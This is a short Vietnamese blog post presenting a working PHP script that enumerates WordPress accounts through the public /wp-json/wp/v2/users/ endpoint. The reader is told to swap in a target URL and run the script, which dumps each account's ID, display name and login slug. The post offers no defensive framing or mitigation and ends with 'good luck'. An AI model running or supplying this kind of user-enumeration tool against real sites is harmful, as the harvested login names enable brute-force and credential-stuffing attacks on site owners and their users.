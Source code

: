 ```yaml
---
title: Tiết lộ Người Dùng WordPress
date: 23/06/2021
layout: single
header:
  teaser: /assets/images/wordpress.png
--- 
```



## Mô Tả 
Tiết lộ các tài khoản WordPress thông qua `/wp-json/wp/v2/users/` sử dụng php để dump tên tài khoản, và họ tên đăng bài 



## Hướng dẫn
Thay đổi url trong đoạn code dưới đây 
```shell 
php file.php
```
[![Language](https://img.shields.io/badge/Lang-php-blue.svg)](https://www.php.net/  )
```php
#!usr/bin/php
<?php
header ('Content-type: text/html; charset=UTF-8');


$url= "http://tagert"; # url 
$payload="/wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
    echo "*-----------------------------*\n";
foreach($json as $users){
    echo "[*] ID :  |" .$users['id']     ."|\n";
    echo "[*] Name: |" .$users['name']   ."|\n";
    echo "[*] User :|" .$users['slug']   ."|\n";
    echo "\n";
}echo "*-----------------------------*";} 
else{echo "[*] No user";}


?>

```


## Chúc may mắn :D

